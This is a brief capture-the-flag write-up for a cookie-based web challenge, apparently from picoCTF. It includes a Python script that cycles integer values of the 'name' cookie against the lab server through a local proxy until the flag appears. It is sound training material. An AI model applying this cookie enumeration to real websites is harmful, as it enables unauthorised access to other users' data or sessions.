

### Cookies

Access the lab, 


Enter `snickerdoodle`, we got reponse `I love snickerdoodle cookies!`

We can see, on POST - `/search` and  GET - `/check`, `Cookies` parameters `name`

if `name = 1`, it's is `snickerdoodle`
if `name = 2`, is `chocolate chip`

so, let's create a script

```python
import requests
from bs4 import BeautifulSoup
burp0_url = "http://mercury.picoctf.net:64944/check"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://mercury.picoctf.net:64944/", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Priority": "u=0, i"}


proxy = {
    'http': 'http://127.0.0.1:8080',
    'https': 'https://127.0.0.1:8080'
}

x = 0
while True:
    x += 1
    burp0_cookies = {"name": f"{x}"}
    resp = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,verify=False, proxies=proxy)
    #print (resp.text)
    soup = BeautifulSoup(resp.text, 'html.parser')
    b_tag = soup.find('b')
    if b_tag:
        print(b_tag.text + f" at {x}")
    else:
        print(f'not found btag on {x}.')

```
got flag at 18


Try modify `name` is `18` got flag

